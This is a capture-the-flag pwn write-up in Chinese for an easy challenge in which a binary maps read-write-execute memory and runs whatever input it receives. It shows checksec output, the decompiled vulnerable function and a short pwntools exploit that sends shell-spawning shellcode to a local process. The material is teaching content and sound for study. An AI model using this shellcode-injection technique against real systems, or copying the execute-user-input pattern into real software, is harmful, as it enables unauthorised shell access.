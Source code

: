 # 简单的shellcode

- 作者：pn1fg
- 参考：-
- 难度：Easy
- 分类：Pwn
- 镜像：-
- 端口：70

# 题目描述

-

# 题目解析

- 源码：[shellcode.c](build/shellcode.c)
- 考点：写shellcode

`shellcode` 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 `shel`l。一般来说，shellcode 需要我们自己填充，要想执行`shellcode`，需要对应的 `binary`在运行时，`shellcode`所在的区域具有可执行权限。

______________________________________________________________________

#### 查看文件信息

查看文件类型：

```shell
>>> file shellcode
shellcode: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e4a67a1f629c4ad7e86b6fd9e87a1bceccf80f7d, for GNU/Linux 3.2.0, not stripped
```

这是一个64位 ELF 文件，动态链接，没有去除符号

查看保护机制：

```shell
>>> checksec --file=shellcode
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX 保护

#### 分析漏洞成因

反编译`vuln`函数

```c
void sym.vuln(void)

{
    code *pcVar1;
    ulong buf;

    pcVar1 = sym.imp.mmap(0, 0x400, 7, 0x22, 0, 0);
    sym.imp.puts("Please Send !!!!");
    sym.imp.read(0, pcVar1, 0x400);
    (*pcVar1)();
    return;
}
```

这个`mmap`函数可能大家都不太熟悉，可以去了解一下这个函数的作用

`mmap`函数在本题中的作用是，将`pcVar1`指针指向的区域中大小为 0x400 的内存赋予可读可写可执行的权限，`read`函数从标准输入读取 0x400 的数据存入刚刚指针指向的区域

所以本题的大致思路就是，通过`read`函数我们将一段`shellcode`写入内存中并且执行它从而拿到`shell`

#### 编写利用程序

[exp.py](writeup/exp.py):

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

io = process('./shellcode')

shellcode = asm(shellcraft.sh()) 

payload = flat([shellcode,])

io.sendlineafter(b'!\n',payload)

io.interactive()
```
